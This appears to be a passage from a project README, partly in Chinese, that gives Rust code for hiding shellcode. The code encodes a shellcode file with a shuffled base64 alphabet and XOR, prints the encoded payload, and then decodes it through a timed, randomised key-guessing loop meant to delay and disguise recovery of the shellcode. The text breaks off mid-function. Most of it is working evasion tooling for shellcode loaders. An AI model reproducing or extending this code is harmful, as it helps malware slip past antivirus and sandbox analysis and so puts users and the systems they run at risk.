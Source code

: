 ```rust


pub fn base64_dynamic_encode(shellcode:&[u8], dynamic_key:u64){

    let encoded = crypt::base64::base64_encode_with_random(shellcode, dynamic_key);
    let check_decode = crypt::base64::base64_encode_with_random("bingo".as_bytes(), dynamic_key);

    println!("let base_shellcode = {:?};", encoded);
    println!("let check = \"{}\";", check_decode);
}

fn main() {
    let key = 7122;
    // 加密shellcode
    let shellcode: &[u8] = include_bytes!("../static/calc.bin");
    base64_dynamic_encode(shellcode,key);
}
```
运行后输出的结果
```rust
let base_shellcode = ">I>j.g,)dmx}lICO(S%//SZ_-+/Qb.d/CI>!/(X_aZw~b.dF/InHcjF-&a#$b^#}0^+|Umw2vI#z^E@zlc#S;S/z/B>!/&U!(b+_l+U!T.n}lm%_Ec%^<jnzFFU!bdXyajx~bE#V?ZZ_>!?zay$_bm#(&a#$b^#}0I#z^E@zlc<g?e*{&m(*HmXK_+CAeFXyajxabE#V<w:!KIXyajx#bE#V(5myaInzFIC,(SXCVSFzVICU(SF_T$c~(SV.?FXzVSF_alVrw_a.>Z@_)M<}lmx}lmx}b.0DlE<}lI:X-5d5E_a&)_UA@/Zz):z&r@2.IB>jmAnNiVc-Tg^~xEDnMl(F:zI}VB:$e,a&CzC2CKSQ,{H}";
let check = "CO?@<zT=";
```
## 解密代码
在加密代码之后，获取了结果后，将结果的两个变量复制到调用解密的函数中 (main),执行之后，经过一段时间将会还原为原始的shellcode
```rust
// 混淆base64 顺序，必须64个不同的字符串
const ALPHABET: &str = "/wVO(Mb&%x,UC<#:Zj}zliyK-!_$vH*DFIe{dm^AXng>?.N;SB~|TEaQ+c)r@520";

pub fn base64_decode_with_random(input: &str, key: u64) -> Result<Vec<u8>, base64::DecodeError> {
    let mut rng = StdRng::seed_from_u64(key);
    let random_value: u8 = rng.gen();
    let alphabet =
        alphabet::Alphabet::new(ALPHABET).unwrap();
    let crazy_config = engine::GeneralPurposeConfig::new()
        .with_decode_allow_trailing_bits(true)
        .with_encode_padding(true)
        .with_decode_padding_mode(engine::DecodePaddingMode::RequireNone);

    let crazy_engine = engine::GeneralPurpose::new(&alphabet, crazy_config);
    let mut data =     crazy_engine.decode(input)?;

    for byte in &mut data {
        *byte ^= random_value;
    }

    Ok(data)
}

pub fn base64_dynamic_decode(check_decode:&str, dynamic_key:u64) -> u64 {
    loop {
        let start_time = Instant::now();
        sleep(Duration::from_millis(100));
        let elapsed_time = start_time.elapsed();
        let ran_time: u64 = rand::thread_rng().gen_range(1..25);
        let ran_xor: u64 = rand::thread_rng().gen_range(1..10);
        let key: u64 = dynamic_key - (elapsed_time.as_millis() as u64 - (ran_time ^ ran_xor));
        println!("{key}");
        match crypt::base64::base64_decode_with_random(check_decode, key) {
```
